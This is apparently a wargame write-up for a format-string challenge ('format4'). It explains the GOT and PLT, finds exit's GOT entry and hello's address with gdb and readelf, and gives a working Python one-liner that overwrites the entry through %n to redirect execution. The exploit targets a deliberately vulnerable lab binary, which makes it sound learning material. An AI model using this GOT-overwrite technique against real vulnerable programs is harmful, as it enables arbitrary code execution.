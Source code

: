 **Format4**


In this challenge we can't just change eip straight from the format string, we have an exit function call right after.
We need to somehow change the exit function field in the .got to the address of hello.



**Got?**

No, not Game of Thrones.
The General Offset Table (GOT for short) is a table of function addresses.
What addresses?
When you use a function from a shared object, for example exit we can't just jump to exit's address because the compiler doesn't know where it is in memory.
That's why when you call a function from a shared object for the first time the Procedure Linkage Table (PLT for short) calls a different function that sets the .got field for exit.
From now on, on every exit call, the plt will jump to whatever address the .got has.



**How Can We Exploit This?**

We need to find where exactly the .got field for exit is located so we can change it's value to hello's address and instead of executing exit we'll simply jump to hello.



**Finding GOT**

If we run the program and try to disassemble exit in gdb, we'll get exit's actual code, which is at (0xb7ec60c0).
We need to try and look at exit before running the program.

![](photos/pre_exec.png)

This is the plt function that checks .got, let's disassemble it

![](photos/exit@plt.png)

There it is!
We need to change this address in order to achieve our goal.



**Finding hello's Address**

```diff
$ readelf -s format4 | grep hello
    64: 080484b4    30 FUNC    GLOBAL DEFAULT   14 hello
```


**Writing The Exploit**

We've already done a few of these format string attacks already, so I'll skip some trivial parts.
We need 3 %x to change our address with a %n.
0x080484b4(hello) - exploit_length = our_value.
After a few tries in gdb I've constructed the following exploit.

```diff
$ python -c "from struct import pack; print pack('<I', 0x8049724) + '%x '*2 + '%134513827x%n'" | ./format4
...
...
...
...
                                                                                                                                                          bffff614
code execution redirected! you win
```

This took a while to run.
